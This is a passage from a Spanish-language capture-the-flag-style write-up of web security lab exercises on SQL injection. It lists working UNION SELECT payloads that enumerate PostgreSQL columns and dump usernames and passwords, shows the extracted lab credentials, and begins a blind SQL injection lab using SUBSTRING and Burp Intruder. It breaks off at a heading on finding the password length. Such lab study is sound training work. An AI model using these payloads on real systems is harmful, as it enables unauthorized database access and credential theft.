 - users
- products

### Columnas de una tabla de una base de datos 

' union SELECT null,column_name FROM information_schema.columns  WHERE table_schema='public' and table_name='users'-- -

**Resultado**

- email
- password
- username

### Listar el contenido de las columnas de una tabla


' union SELECT null,username||'-'||password FROM public.users-- -

**Resultado**


- wiener-3xl0w0hq87bc29ve4e8z
- carlos-vhjeruhx9kf4yqrmo0hq
- administrator-p1q9m1m3yg1lmnh4l30s


# Inyección SQL ciega con respuestas condicionales [1/3]

## Laboratorio: Inyección SQL ciega con respuestas condicionales

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada.

No se devuelven los resultados de la consulta SQL y no se muestran mensajes de error. Pero la solicitud incluye una Welcome back mensaje en la página si la consulta devuelve alguna fila.

La base de datos contiene una tabla diferente llamada users, con columnas llamadas username y password. Debe aprovechar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del administrator usuario.

Para resolver el laboratorio, inicie sesión como administrator usuario.


Usamos esta técnica para:

- Confirmar la existencia de una tabla ‘users‘ y un usuario ‘administrator‘.
- Determinar la longitud exacta de la contraseña del administrador.
- Extraer el valor carácter por carácter usando funciones como ‘SUBSTRING‘.


Este tipo de ataque requiere paciencia y precisión, ya que no vemos los datos directamente, pero con herramientas como Burp Repeater e Intruder, es posible automatizar gran parte del proceso.

### Saber el tamano de la constrasena
